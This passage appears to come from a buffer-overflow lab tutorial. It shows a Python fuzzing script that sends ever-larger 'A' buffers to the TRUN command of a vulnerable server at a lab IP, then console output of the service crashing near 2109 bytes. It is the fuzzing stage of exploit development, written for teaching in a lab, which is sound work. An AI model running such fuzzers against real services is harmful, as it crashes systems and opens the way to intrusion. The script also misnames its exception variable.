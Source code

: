 This can be done with some python code.

```python
#!/usr/bin/python 

import socket,sys
from time import sleep

address = '192.168.136.130'
port    = 9999

offset  = 100

while True:
	try:
		buffer  = b""         # empty byte var
		buffer += b"A"*offset # junk times offset
		print(f'[+] Sending buffer: {str(len(buffer))} bytes')
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((address,port))
		s.recv(1024)			
		s.send(b"TRUN /.:/%s \r\n" % buffer) 
		offset += 100
		sleep(1)
	except RuntimeError as Err:
		print(f'[!] Unable to connect to the application. {err}')
		sys.exit(0)
	finally:
		s.close()
```

When we run this python script it will run until we send over a buffer large enough where it breaks. In this case the program crashed at a buffer of 2109 bytes (`TRUN /.:/ + 'A'*2100`).

```bash
root@kali:/mnt/hgfs/_shared_folder/BO python3 trun_1.py 
[+] Sending buffer: 109 bytes
[+] Sending buffer: 209 bytes
[+] Sending buffer: 309 bytes
[+] Sending buffer: 409 bytes
[+] Sending buffer: 509 bytes
[+] Sending buffer: 609 bytes
[+] Sending buffer: 709 bytes
[+] Sending buffer: 809 bytes
[+] Sending buffer: 909 bytes
[+] Sending buffer: 1009 bytes
[+] Sending buffer: 1109 bytes
[+] Sending buffer: 1209 bytes
[+] Sending buffer: 1309 bytes
[+] Sending buffer: 1409 bytes
[+] Sending buffer: 1509 bytes
[+] Sending buffer: 1609 bytes
[+] Sending buffer: 1709 bytes
[+] Sending buffer: 1809 bytes
[+] Sending buffer: 1909 bytes
[+] Sending buffer: 2009 bytes
[+] Sending buffer: 2109 bytes
[!] Unable to connect to the application.
```
